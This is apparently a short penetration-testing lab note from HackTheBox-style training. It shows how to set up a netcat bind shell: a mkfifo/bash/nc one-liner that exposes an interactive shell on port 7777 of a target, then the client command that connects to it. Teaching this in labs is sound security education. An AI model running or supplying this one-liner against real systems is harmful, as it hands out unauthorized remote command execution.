 ## Establishing a Basic Bind Shell with Netcat
#### No. 1: Server - Binding a Bash shell to the TCP session
```shell
Target@server:~$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```

#### No. 2: Client - Connecting to bind shell on target
```shell
V0xD0x@htb[/htb]$ nc -nv 10.129.41.200 7777

Target@server:~$  
```
